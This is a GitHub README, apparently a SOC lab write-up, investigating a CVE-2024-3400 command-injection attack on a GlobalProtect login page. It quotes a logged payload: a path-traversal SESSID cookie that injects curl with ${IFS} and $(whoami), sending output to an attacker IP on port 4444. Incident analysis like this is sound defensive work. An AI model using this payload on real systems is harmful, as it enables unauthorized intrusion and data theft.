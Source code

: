 # SOC Project-(LetsDefend)
# 🔥 SOC Investigation: Web Attack 

## 🛡️ Overview
This project showcases my investigation of a **web attack** (CVE-2024-3400) using the Let’sDefend SOC platform. I analyzed **web logs, threat intelligence sources, and SIEM alerts** to detect and mitigate the threat.

## 📅 Incident Details
- **Incident Type:** Web Attack (Command Injection)
- **Source:** Let’sDefend SOC Platform
- **Objective:** Identify attack patterns, analyze logs, and recommend mitigation steps
- **Tools Used:** SIEM, VirusTotal, MITRE ATT&CK Framework, Palo Alto Network Security Advisories/Unit42 

## 🔍 Investigation Process

### 1. **Alert Review**
The investigation started with a web attack alert in the SIEM:
- **Source IP:** 144.172.79.92
- **Target:** 172.16.17.139/global-protect/login.esp
- **Alert Trigger Reason:** Characteristics exploit pattern Detected on Cookie and Request, indicative exploitation of the CVE-2024-3400.`
- **Attack Vector:** Command Injection (`SESSID=./../../../opt/panlogs/tmp/device_telemetry/hour/aaa`)

### 2. **Web Log & Endpoint Analysis**
Using **Firewall logs**, I identified:
- Suspicious GET/POST requests with Command Injection-like patterns: `SESSID=./../../../opt/panlogs/tmp/device_telemetry/hour/aaa`curl${IFS}144.172.79.92:4444?user=$(whoami)`
- Action was allowed and there was connection made indicated by "200" status
- Suspicous Process and command seen in Endpoint Security: '/usr/bin/python3 update.py'
- Image hash obtained and will be used for threat intelligence: 3de2a4392b8715bad070b2ae12243f166ead37830f7c6d24e778985927f9caac

  <img width="300" alt="image" src="https://github.com/user-attachments/assets/c6045343-e769-4945-afd0-47275cc9e65d" />
  <img width="301" alt="image" src="https://github.com/user-attachments/assets/69cbeab2-ee79-4a45-9f4c-2e3a0b75cd07" />
  <img width="479" alt="image" src="https://github.com/user-attachments/assets/2fee43d2-bc82-4789-9e92-df92e5f0828e" />
  <img width="624" alt="image" src="https://github.com/user-attachments/assets/9c8a7baa-81ed-4827-ac90-f10945563345" />



### 3. **Threat Intelligence & Attack Mapping**
- **Checked malicious IP and hash image reputation** using **Virus Total**
- **Researched exploitation activity & reports** using **https://unit42.paloaltonetworks.com/cve-2024-3400/** and **https://www.volexity.com/blog/2024/04/12/zero-day-exploitation-of-unauthenticated-remote-code-execution-vulnerability-in-globalprotect-cve-2024-3400/**
- **Mapped attacker behavior** to **MITRE ATT&CK framework** using **Virus Total** behaviour of image hash
